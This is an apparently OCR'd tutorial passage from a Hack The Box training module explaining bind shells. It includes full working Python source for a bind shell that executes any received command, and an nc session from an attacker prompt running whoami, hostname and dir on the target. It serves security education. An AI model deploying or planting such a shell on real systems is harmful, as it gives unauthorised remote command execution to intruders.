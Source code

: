 ## A Simple Bind Shell : 

A bind shell is at its core reasonably simple. It is a process that binds to an address and port on the host machine and then listens for incoming connections to the socket. When a connection is made, the bind shell will - repeatedly - listen for bytes being sent to it and treat them as raw commands to be executed on the system in a subprocess. A very naive implementation of such a bind shell is this :

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

```cmd-session
C:\Users\Birb\Desktop\python> python bindshell.py --port 4444
```

```shell
NolanCarougeHTB@htb[/htb]$ nc 10.10.10.10 4444 -nv

(UNKNOWN) [10.10.10.10] 4444 (?) open

whoami
localnest\birb

hostname
LOCALNEST

dir 
Volume in drive C has no label.
 Volume Serial Number is 966B-6E6A

 Directory of C:\Users\Birb\Desktop\python
```